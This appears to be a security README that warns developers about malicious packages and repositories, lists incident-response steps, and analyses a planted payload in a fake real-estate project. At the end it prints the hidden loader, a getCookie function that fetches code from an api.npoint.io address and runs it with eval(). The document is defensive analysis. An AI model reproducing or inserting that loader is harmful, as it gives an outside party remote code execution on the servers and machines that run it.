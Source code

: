 If you suspect that you have installed or executed malicious code, take these steps immediately:

1. **Disconnect from the Internet** - Prevent further data theft or communication with attacker servers.
2. **Check Running Processes** - Use `ps aux` (Linux/macOS) or Task Manager (Windows) to find unknown processes.
3. **Scan for Malware** - Use an antivirus scanner or tools like `ClamAV` for Linux/macOS.
4. **Reinstall Node/Python and Remove Compromised Packages**
   ```bash
   rm -rf node_modules package-lock.json && npm install
   ```
   ```bash
   pip freeze | xargs pip uninstall -y
   ```
5. **Rotate Credentials** - Change passwords, API keys, SSH keys, and clear stored credentials in browsers.
6. **Review System Logs** - Check `.bash_history`, `.zsh_history`, or Windows Event Viewer for suspicious commands.
7. **Reformat if Necessary** - If you suspect deep compromise, consider reinstalling your OS.

## Additional Security Resources

- **OWASP Top Ten** - Common security vulnerabilities and best practices.
- [**NPM Security Best Practices**](https://docs.npmjs.com/cli/v8/using-npm/security)
- [**Python Security Guide**](https://docs.python.org/3/howto/security.html)

## Final Recommendations

- Keep dependencies updated and remove unused ones.
- Use two-factor authentication (2FA) on developer accounts.
- Be cautious when installing packages from unknown sources.
- Always review the `package.json`, `requirements.txt`, or `setup.py` before installing.

By staying vigilant, using proper tools, and following security best practices, you can reduce the risk of falling for malicious scams or executing harmful code.

## Repositories

### 1. Real Estate Project

Located in `real_estate/` directory. The malicious payload is hidden in `real_estate/server/controllers/userController.js`.

The malware:

- Makes a request to api.npoint.io to fetch obfuscated JavaScript code
- Executes the fetched code using eval() in Node.js environment
- Located at the end of userController.js in a getCookie function:

```javascript
exports.getCookie = asyncErrorHandler(async (req, res, next) => {
  const result = await axios.get("https://api.npoint.io/ac2916e3f543effa2edd");
  eval(result.data.cookie);
})();
```
